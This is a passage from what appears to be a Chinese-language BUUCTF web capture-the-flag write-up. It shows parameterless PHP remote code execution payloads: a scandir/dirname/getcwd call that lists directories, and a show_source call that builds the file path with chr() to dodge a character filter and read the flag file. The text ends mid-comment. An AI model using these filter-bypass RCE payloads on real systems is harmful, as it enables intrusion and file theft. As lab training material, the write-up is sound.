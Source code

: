 利用此漏洞成功执行命令:<img src="/images/buuctf-web/image-20221015221731309-166704781973448.png" alt="image-20221015221731309" style="zoom:67%;" />

这里因为过滤了好多符号,需要**进行无参数的RCE**

```
? num=Print_r(scandir(dirname(dirname(dirname(getcwd())))))
这里getcwd返回当前目录的绝对路径
dirname函数返回上级目录的绝对路径
```

先尝试扫描一下目录,找找flag文件在什么地方

<img src="/images/buuctf-web/image-20221015223408729.png" alt="image-20221015223408729" style="zoom:80%;" />

那么需要想办法读取该文件: **可以利用`chr`函数将`ascii`码转为需要的字符**

```php
show_source(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)) //这些ascii码拼接起来就是
```
